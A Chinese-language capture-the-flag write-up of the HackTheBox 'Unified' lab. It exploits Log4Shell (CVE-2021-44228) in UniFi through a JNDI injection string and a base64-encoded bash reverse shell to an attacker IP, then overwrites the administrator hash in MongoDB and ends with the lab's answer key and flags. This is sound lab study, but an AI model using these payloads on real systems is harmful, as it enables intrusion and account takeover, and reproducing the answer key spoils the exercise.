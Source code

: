 ```yaml
---
title: Unified
---
```

> 打这个靶机的时候也是断断续续的，所以里面的目标IP前后对应不上，但是方法都是一样的。

## 扫端口

```shell
nmap -sC -sV 10.129.96.149
```

![image-20230404171520202](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404171520202.png)

访问8080端口重定向到了8443

看到是 `unifi6.4.54`版本的，结合官方给的WP知道这个版本有一个CVE，可以以此为出发点进行攻击

## CVE-2021-44228的利用

### 验证漏洞存在

先验证是不是存在这个漏洞

1. 抓包，因为是 `https`的站，所以要对 `burpsuite`进行一些设置[Burp Suite抓HTTPS数据包教程](https://blog.csdn.net/zyw_anquan/article/details/47904495)

![image-20230404175013011](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404175013011.png)

然后根据官方的WP，需要把remember的值改成 `${jndi:ldap://Tun 0的IP/o=tomcat}`

验证存在

![image-20230404214952373](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404214952373.png)

### 实施攻击

#### 漏洞利用环境搭建

> 更新&&安装环境
>
> sudo apt update
>
> sudo apt install openjdk-11-jdk -y
>
> sudo apt-get install maven
>
> 安装工具
>
> git clone https://github.com/veracode-research/rogue-jndi
>
> cd rogue-jndi
>
> mvn package

编译成功

![image-20230404222733175](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404222733175.png)

#### 开始攻击

首先对 `payload`进行 `base64`编码，以防止出现其他的编码问题

```shell
echo "/bin/bash -c '/bin/bash -i >&/dev/tcp/10.10.14.149/4444 0>&1'" | base64
```

![image-20230404223238197](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404223238197.png)

运行RogueJndi-1.1.jar

```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNDkvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.149"
```

并监听4444端口

```shell
nc -lnvp 4444
```

> 第一步运行监听命令
>
> 第二步运行 `RogueJndi-1.1.jar`
>
> 第三步在 `remember`的值改为 `${jndi:ldap://Tun 0的IP:1389/o=tomcat}`
>
> 第四步点击 `Send`
>
> 然后出现红色和蓝色的长线就代表攻击成功了
>
> 但是黄色的长线第一次运行时是不会出现的，要运行 `script /dev/null -c bash`切换成交互式shell才会出现

![image-20230404223823350](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404223823350.png)

### 信息收集

#### MongoDB数据库

任务八问 `MongoDB`跑在哪个端口上，用命令查看，发现是在27117端口上

```shell
ps aux | grep mongo
```

![image-20230404224950182](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404224950182.png)

任务九又问 `MongoDB`的默认数据库名称是什么官方的WP里面说了是 `ace`当然也能百度到

然后就是使用 `db.admin.find()`方法检索 `ace`数据库中的所有文档，并将结果传递给 `forEach`方法

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![image-20230404225908450](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404225908450.png)

可以看到里面第一个就是 `administrator`用户，密码 `hash`值保存在 `x_shadow`变量中，但是这个值并不能被任何的密码工具破解。那就换个思路，不能破解，那就替换，WP中提到可以用 `mkpasswd`命令去实现加密一个新的密码

> 原密码前面有$6$，特征符，代表使用的sha-512进行的加密，所以我们也要同样的方式进行加密新密码
>
>> SHA-512的科普：
>>
>> SHA-512 算法的安全性基于其数学原理和算法复杂度。由于它的输出长度很长，因此很难通过暴力攻击等方法破解。它是目前最常用的哈希算法之一，也被广泛应用于数字签名、密码学加密和数据完整性验证等领域。
>>

![image-20230404230727942](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404230727942.png)

#### 更新密码

```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$W8lv9ywfFDfMVM8a$CPn2fYW3L2rlWhKQy8kuef8Vs/SHgwfwhr18ZzJ/K3OMWZeNmMrpoAaranjl/q3.7K3VYZHBPdp2EVnQB3Jq00"}})'
```

#### 登录后台

用更新了的密码成功登录后台

![image-20230404231823711](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404231823711.png)

#### 找ssh密码

> 点击那个齿轮图标，然后点击Site，滑到页面最底部看到ssh的密码，点那个眼睛可以看到密码

![image-20230404232536565](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404232536565.png)

#### ssh连接

> 到这就完事了，`user.txt`在 `/home/michael`目录下

![image-20230404232956730](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404232956730.png)

## 答案

> 1. 22,6789,8080,8443
> 2. UniFi Network
> 3. 6.4.54
> 4. CVE-2021-44228
> 5. ldap
> 6. tcpdump
> 7. 389
> 8. 27117
> 9. ace
> 10. db.admin.find()
> 11. db.admin.update()
> 12. NotACrackablePassword4U2022
> 13. 6ced1a6a89e666c0620cdb10262ba127
> 14. e50bc93c75b634e4b272d2f771c33681

## 参考博客

- [HackTheBox - Unified](https://blog.csdn.net/qq_45862635/article/details/125350250)
- [hack the box靶场unified靶机](https://blog.csdn.net/zr1213159840/article/details/123697698)
